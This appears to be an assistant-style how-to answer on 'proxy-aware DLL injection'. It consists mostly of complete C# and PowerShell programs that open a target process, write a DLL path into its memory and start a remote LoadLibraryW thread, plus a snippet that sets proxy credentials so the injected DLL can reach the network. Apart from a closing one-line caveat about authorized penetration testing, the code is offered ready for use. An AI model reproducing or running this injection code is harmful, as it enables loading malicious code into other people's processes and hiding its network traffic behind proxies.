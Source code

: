 
To create a proxy-aware DLL injection in C# or PowerShell, you'll need to perform the following steps:

1. **Locate the target process**.
2. **Allocate memory in the target process**.
3. **Write the path of the DLL into the allocated memory**.
4. **Create a remote thread in the target process that loads the DLL**.

Additionally, you need to configure the proxy settings in your code if your injection needs to communicate over the network.

Below is a simplified example in C# that performs DLL injection into a target process and sets proxy settings.

### C# Example

#### Step 1: Define necessary P/Invoke methods

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Text;

namespace ProxyAwareDLLInjection
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern bool CloseHandle(IntPtr hObject);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out IntPtr lpThreadId);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr GetModuleHandle(string lpModuleName);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);

        const uint PROCESS_ALL_ACCESS = 0x001F0FFF;
        const uint MEM_COMMIT = 0x00001000;
        const uint MEM_RESERVE = 0x00002000;
        const uint PAGE_READWRITE = 0x04;

        static void Main(string[] args)
        {
            int targetProcessId = 1234; // Replace with the target process ID
            string dllPath = @"C:\path\to\your.dll";

            IntPtr hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, targetProcessId);
            if (hProcess == IntPtr.Zero)
            {
                Console.WriteLine("Failed to open target process.");
                return;
            }

            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, (uint)((dllPath.Length + 1) * Marshal.SizeOf(typeof(char))), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
            if (addr == IntPtr.Zero)
            {
                Console.WriteLine("Failed to allocate memory in target process.");
                CloseHandle(hProcess);
                return;
            }

            byte[] dllPathBytes = Encoding.Unicode.GetBytes(dllPath);
            if (!WriteProcessMemory(hProcess, addr, dllPathBytes, (uint)dllPathBytes.Length, out IntPtr _))
            {
                Console.WriteLine("Failed to write memory in target process.");
                CloseHandle(hProcess);
                return;
            }

            IntPtr hKernel32 = GetModuleHandle("kernel32.dll");
            IntPtr hLoadLibraryW = GetProcAddress(hKernel32, "LoadLibraryW");

            if (CreateRemoteThread(hProcess, IntPtr.Zero, 0, hLoadLibraryW, addr, 0, out IntPtr _) == IntPtr.Zero)
            {
                Console.WriteLine("Failed to create remote thread in target process.");
                CloseHandle(hProcess);
                return;
            }

            Console.WriteLine("DLL injected successfully.");
            CloseHandle(hProcess);
        }
    }
}
```

#### Step 2: Configure Proxy Settings (if needed)

If your DLL requires network communication and needs to be proxy-aware, you can set proxy settings in your DLL code using `WebRequest` or `HttpClient`. Here's an example of setting proxy settings in a C# class:

```csharp
using System;
using System.Net;

namespace YourNamespace
{
    public class ProxyAwareClass
    {
        public void SetProxy()
        {
            WebRequest.DefaultWebProxy = new WebProxy("http://yourproxy:8080")
            {
                Credentials = new NetworkCredential("username", "password")
            };

            // Example of using HttpClient with proxy
            HttpClientHandler handler = new HttpClientHandler()
            {
                Proxy = new WebProxy("http://yourproxy:8080"),
                UseProxy = true,
                Credentials = new NetworkCredential("username", "password")
            };

            HttpClient client = new HttpClient(handler);
            // Use client to make network requests
        }
    }
}
```

### PowerShell Example

PowerShell can also be used to perform DLL injection, but it might be less common for complex tasks like setting proxy settings within the injected DLL.

```powershell
param (
    [int]$pid,
    [string]$dllPath
)

$PROCESS_ALL_ACCESS = 0x1F0FFF
$MEM_COMMIT = 0x1000
$MEM_RESERVE = 0x2000
$PAGE_READWRITE = 0x04

$kernel32 = Add-Type -MemberDefinition @"
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
    
    [DllImport("kernel32.dll", SetLastError=true)]
    [return: MarshalAs(UnmanagedType.Bool)]
    public static extern bool CloseHandle(IntPtr hObject);
    
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    
    [DllImport("kernel32.dll", SetLastError=true)]
    [return: MarshalAs(UnmanagedType.Bool)]
    public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out IntPtr lpNumberOfBytesWritten);
    
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out IntPtr lpThreadId);
    
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr GetModuleHandle(string lpModuleName);
    
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);
"@ -Name 'Kernel32' -Namespace 'DllInjection' -PassThru

$hProcess = [DllInjection.Kernel32]::OpenProcess($PROCESS_ALL_ACCESS, $false, $pid)
if ($hProcess -eq [IntPtr]::Zero) {
    Write-Host "Failed to open target process."
    exit
}

$dllPathBytes = [System.Text.Encoding]::Unicode.GetBytes($dllPath)
$addr = [DllInjection.Kernel32]::VirtualAllocEx($hProcess, [IntPtr]::Zero, [uint32]($dllPathBytes.Length), $MEM_COMMIT -bor $MEM_RESERVE, $PAGE_READWRITE)
if ($addr -eq [IntPtr]::Zero) {
    Write-Host "Failed to allocate memory in target process."
    [DllInjection.Kernel32]::CloseHandle($hProcess)
    exit
}

$written = [IntPtr]::Zero
if (-not [DllInjection.Kernel32]::WriteProcessMemory($hProcess, $addr, $dllPathBytes, [uint32]$dllPathBytes.Length, [ref]$written)) {
    Write-Host "Failed to write memory in target process."
    [DllInjection.Kernel32]::CloseHandle($hProcess)
    exit
}

$hKernel32 = [DllInjection.Kernel32]::GetModuleHandle("kernel32.dll")
$hLoadLibraryW = [DllInjection.Kernel32]::GetProcAddress($hKernel32, "LoadLibraryW")
if ([DllInjection.Kernel32]::CreateRemoteThread($hProcess, [IntPtr]::Zero, 0, $hLoadLibraryW, $addr, 0, [ref]$null) -eq [IntPtr]::Zero) {
    Write-Host "Failed to create remote thread in target process."
    [DllInjection.Kernel32]::CloseHandle($hProcess)
    exit
}

Write-Host "DLL injected successfully."
[DllInjection.Kernel32]::CloseHandle($hProcess)
```

This PowerShell script opens the target process, allocates memory for the DLL path, writes the DLL path into the allocated memory, and then creates a remote thread to load the DLL into the target process.

Remember, any kind of DLL injection is considered malicious and should only be used for legitimate purposes in a controlled and authorized environment, such as during penetration testing with proper permissions.